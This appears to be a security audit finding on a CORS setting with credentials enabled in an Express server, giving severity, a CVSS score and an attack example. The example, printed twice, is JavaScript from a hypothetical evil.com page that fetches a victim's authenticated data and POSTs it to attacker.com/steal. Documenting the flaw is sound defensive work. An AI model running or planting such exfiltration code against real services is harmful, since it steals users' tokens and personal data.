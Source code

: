 ```javascript
// Attacker's malicious site: evil.com
fetch('https://[server].vercel.app/api/auth/user', {
  credentials: 'include',  // Send victim's JWT token
  headers: {
    'Authorization': `Bearer ${stolenToken}`
  }
})
.then(res => res.json())
.then(data => {
  // Exfiltrate user data
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

**Impact:**
- Cross-origin data theft
- CSRF attacks with credentials
- Token exfiltration

**Severity:** HIGH  
**CVSS Score:** 7.0

**Vulnerability Description:**

CORS allows credentials from any origin matching the pattern:

```javascript
// server/server.js
const CORS_ORIGIN = getEnv('CORS_ORIGIN', 'http://localhost:5173');

app.use(cors({
  origin: CORS_ORIGIN,  // Single origin, but...
  credentials: true,    // ← Allows cookies/auth headers
  methods: ['GET', 'POST', 'PUT', 'DELETE']
}));
```

If `CORS_ORIGIN` is set to `*` or multiple origins improperly, credentials are exposed.

**Attack Vector:**

If attacker can modify `CORS_ORIGIN` (via environment injection), they can:

```javascript
// Attacker's malicious site: evil.com
fetch('https://[server].vercel.app/api/auth/user', {
  credentials: 'include',  // Send victim's JWT token
  headers: {
    'Authorization': `Bearer ${stolenToken}`
  }
})
.then(res => res.json())
.then(data => {
  // Exfiltrate user data
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

